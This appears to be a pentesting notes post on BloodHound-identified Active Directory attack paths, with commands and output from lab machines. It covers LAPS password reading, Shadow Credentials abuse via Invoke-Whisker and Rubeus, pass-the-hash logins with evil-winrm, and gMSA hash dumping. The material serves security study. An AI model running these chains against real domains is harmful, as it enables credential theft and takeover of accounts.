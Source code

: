 ```yaml
---
description: >-
  BloodHound Vector Attacks
title: BloodHound Vector Attacks              # Add title here
date: 2023-05-28 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Privilege Escalation]                     # Change Templates to Writeup
tags: [active directory, windows privesc, bloodhound]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### ReadLAPSPassword
We can use the utility laps.py to read LAPS passwords outside the machine, all we need is valid credentials:
```bash
python3 laps.py -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 07-07-2022 13:57:05
DC &V@%DQ-wEwQ97A
```
Examples:
[Timelapse](https://shuciran.github.io/posts/Timelapse/#fnref:readlapspassword)
[[StreamIO#^2cc182]]

Also another technique is with [Get-LAPSPasswords.ps1](https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1) which can be abused within the machine:
```powershell
```
Examples:
[Timelapse](https://shuciran.github.io/posts/Timelapse/#fnref:Get-LAPSPasswords)

### AddKeyCredentialLink
We can use `Invoke-Whisker.ps1` to abuse this privilege, first we need to execute the following command after upload it to the victim machine. This will retrieve a huge command that can be used with [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries):
```powershell
PS C:\Windows\Temp\Recon> Invoke-Whisker -Command "add /target:sflowers"
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password lAfNxND7rgF9A5mJ
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 86d8f569-2258-4ab5-8ce1-0c8befa21b55
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:sflowers 
/certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCWUEgglhMIIJXTCCBhY...
vXgICB9A= /password:"lAfNxND7rgF9A5mJ" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```
But first we need to delete the carrier return and jump line of every line on it, so we can use "tr" and "sponge" commands after saving the output on a file called data:
```bash
cat data | tr -d '\n' | sponge data
```
Finally we need to upload the Rubeus.exe with curl and execute it as indicated by `Invoke-Whisker`:
```powershell

 ______        _
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  1/25/2023 7:28:01 AM
  EndTime                  :  1/25/2023 5:28:01 PM
  RenewTill                :  2/1/2023 7:28:01 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  8hh6He6G6F2lLiBgwgmo3w==
  ASREP (key)              :  EB63CD6F931B4E922AC0EC5439D0C716

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
This will retrieve the NTLM hash of the user sflowers, which then can be checked with crackmapexec:
```bash
crackmapexec winrm 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' 
SMB         10.10.11.175    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:outdated.htb)
HTTP        10.10.11.175    5985   DC               [*] http://10.10.11.175:5985/wsman
WINRM       10.10.11.175    5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```
The [+] and the (Pwned!) indicates that it is possible to login via winrm so let's do it:
```powershell
evil-winrm -i 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'         

*Evil-WinRM* PS C:\Users\sflowers\Documents>
```
Examples:
[Outdated](https://shuciran.github.io/posts/Outdated/#fnref:addkeycredentialink)

### ReadGMSAPassword
After searching about how to execute a `ReadGMSAPassword` from our user, an excellent technique to obtain the GMSA password is abusing of [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) as follows:
```bash
/usr/share/privesc/Windows/gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::fca9edf1c9fb8f031dfc38d918279642
svc_int$:aes256-cts-hmac-sha1-96:15516a903b67ce2aacda697b76fae9c2d1fc60e3408abc6587b2faeefb6bfac2
svc_int$:aes128-cts-hmac-sha1-96:4e25dcda503a43e8757abe3081892114
```